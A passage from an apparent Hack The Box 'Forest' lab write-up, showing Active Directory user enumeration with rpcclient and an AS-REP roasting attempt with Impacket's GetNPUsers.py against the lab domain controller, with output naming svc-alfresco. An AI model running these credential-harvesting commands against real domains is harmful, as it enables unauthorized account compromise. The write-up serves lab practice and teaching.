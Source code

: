     user:[HealthMailboxb01ac64] rid:[0x476]                                                                    
    user:[HealthMailbox7108a4e] rid:[0x477]                                                                    
    user:[HealthMailbox0659cc1] rid:[0x478]                                                                  
    user:[sebastien] rid:[0x479]                                                                             
    user:[lucinda] rid:[0x47a]                                                                               
    user:[svc-alfresco] rid:[0x47b]                                                                          
    user:[andy] rid:[0x47e]
    user:[mark] rid:[0x47f]    
    user:[santi] rid:[0x480]
    ```
    
- svc_alfresco is a service user, we can confirm using rpcclient
    
    ```bash
    rpcclient $> queryusergroups 0x47b
            group rid:[0x201] attr:[0x7]
            group rid:[0x47c] attr:[0x7]
    rpcclient $> querygroup 0x201
            Group Name:     Domain Users
            Description:    All domain users
            Group Attribute:7
            Num Members:30
    rpcclient $> querygroup 0x47c
            Group Name:     Service Accounts
            Description:
            Group Attribute:7
            Num Members:1
    ```
    
- Formatting users file:
    
    ```bash
    ➜  ~ awk '{ gsub(/user:\[|\]/, ""); print $1}' users.txt > forestUsers.txt
    ```
    
- GetNPUsers (didn’t work):
    
    ```bash
    ➜  ~ sudo python3 GetNPUsers.py forest.htb.local/ -usersfile forestUsers.txt -format hashcat -outputfile hashes.asreproast
    ```
    
- We will be using ***GetNPUsers.py***. What this does is it gets all the users that don't require a Keberos pre-authentication and we can extract their TGTs.
    
    ```bash
    ➜  ~ python3 GetNPUsers.py -dc-ip 10.10.10.161 -request 'htb.local/' -format hashcat 
    Impacket v0.11.0 - Copyright 2023 Fortra
    
    Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
    ------------  ------------------------------------------------------  --------------------------  --------------------------  --------
    svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2024-04-28 04:56:22.631863  2019-09-23 04:09:47.931194  0x410200 
    